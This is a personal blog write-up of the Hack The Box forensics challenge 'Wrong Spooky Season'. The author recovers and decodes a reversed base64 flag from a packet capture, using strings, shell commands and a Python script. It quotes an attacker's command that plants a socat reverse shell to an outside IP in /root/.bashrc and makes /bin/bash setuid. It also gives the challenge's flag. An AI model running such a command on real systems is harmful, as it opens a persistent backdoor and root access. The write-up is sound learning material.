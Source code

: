 ```yaml
---
layout: default
author: m0j0
---
```


![htb_ctf_2023](/assets/images/HTB_CTF_2023.jpg)


It's near upon me and the OUCSS team for the latest Uni CTF with Hack the Box.

I decided to go over some old write-ups from previous years and other events 
like [PicoCTF](https://play.picoctf.org/login) just to get that CTF mindset again.

It is a game of Love and Hate when playing CTF's for me but the key thing I 
have learnt over the years is not too get frustrated and just be happy that
you participated. We all are here to gain that little bit more knowledge and
these for sure give you some, albeit in a totally different format.

I have landed on [HTB's](https://app.hackthebox.com/challenges/wrong-spooky-season)
very easy Forensics challenge called **Wrong Spooky Season**.I gotta start somewhere
and very easy on HTB can be well... let's just find out by trying it. 

I'll show some methodolgy once I have cracked it.

Well I didn't think I'd get to update this so quick and as it is retired I can 
talk about it.

I didn't glance at anything for this as it was "very easy".

So I got some files to download and it turned out to be a `.pcap` file. The challenge
has a description:

```
 CHALLENGE DESCRIPTION

&quot;I told them it was too soon and in the wrong season to deploy such a website,
but they assured me that theming it properly would be enough to stop the ghosts from
haunting us. I was wrong.&quot; Now there is an internal breach in the `Spooky Network`
and you need to find out what happened. Analyze the the network traffic and find how
the scary ghosts got in and what they did.
```

Networking then and a website being deployed. I got stuck in. 
As I was unzipping the file with the password HTB supply I thought about
opening Wireshark a great tool for this that we all must know.


But... First I ran the simple but effective sometimes `strings` command.
Usually I run `strings -a whatever.pcap` for some low hanging fruit or juicy 
info to lead me on my way and `grep less` to run through the stdout.

I forgot the `less` command and at the end of the outputted strings a command:

```bash
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo
"==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null &&
chmod +s /bin/bash
```
Looks familair to  `base64` encoded attempt at a shell on the target so I try the 
string:

```bash
m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | base64 -d                                                       [13:40:17]
base64: invalid input
FAIL: 1

m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | base32 -d                                                       [13:41:18]
base32: invalid input
FAIL: 1
```

As you can see I ran `base32` but then I realised why it had failed.  I was too
fast. If I flip the string what will it do?

So to flip for speed I used an [online site](https://www.textreverse.com/) but this 
could be done with python which I will do.

It gave me an output which I fed to the terminal:

```
m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==" | base64 -d                                                       [13:42:14]
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Boom a flag!! That was very easy as rated and fun to brush off the cobwebs (:

This made me want to reverse the string and decode it with **Python** which can be done
fairly easy with Python. Below is my script.

```python
# importing the module
import base64

# assign the string from challenge
string = "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS"

# assign variable and reverse it with a slice method then print
print("This is the string reversed:\n") 
convert_string = print(string[::-1])
print("\n")
convert_string = "SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg=="

# converting the base64 code into ascii characters as each character in B64 is 6 bits
convert_bytes = convert_string.encode("ascii")

# converting into bytes from base64 system
converted_bytes = base64.b64decode(convert_bytes)

# decoding the ASCII characters into alphabets
decoded_sample = converted_bytes.decode("ascii")

# displaying the result
print(f"Here is the flag: {decoded_sample}")
# Here is the flag: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}  
```
### The proof:

![htb_ctf_2023](/assets/images/cert.jpg)


